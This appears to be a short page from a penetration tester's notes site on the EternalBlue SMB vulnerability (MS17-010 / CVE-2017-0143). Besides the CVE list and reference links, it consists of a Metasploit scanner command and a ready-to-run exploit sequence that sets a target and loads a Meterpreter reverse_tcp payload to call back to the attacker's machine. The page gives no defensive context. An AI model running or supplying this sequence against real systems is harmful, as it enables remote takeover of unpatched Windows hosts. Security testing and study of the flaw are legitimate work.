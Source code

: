 ```yaml
---
title : "CVE-2017-0143"
# pre : ' '
description : "EternalBlue exploits a vulnerability in Microsoft's implementation of the Server Message Block (SMB) protocol."
date : 2020-03-23T11:14:37+01:00
# hidden : true
# draft : true
weight : 90
# tags : ['']
---
```


---

## MS17-010

- MS17-010
- CVE-2017-0143
- CVE-2017-0144
- CVE-2017-0145
- CVE-2017-0146
- CVE-2017-0148
- CVE-2017-0147

### Scanner

```plain
msf5 > use auxiliary/scanner/smb/smb_ms17_010
```

### Exploit

```plain
msf5 > use exploit/windows/smb/ms17_010_eternalblue
msf5 > set rhost <target>
msf5 > set payload windows/x64/meterpreter/reverse_tcp
msf5 > set lhost <own-system>
msf5 > run
```

## URL List

- [Docs.microsoft.com](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010)
- [GitHub](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS17-010)
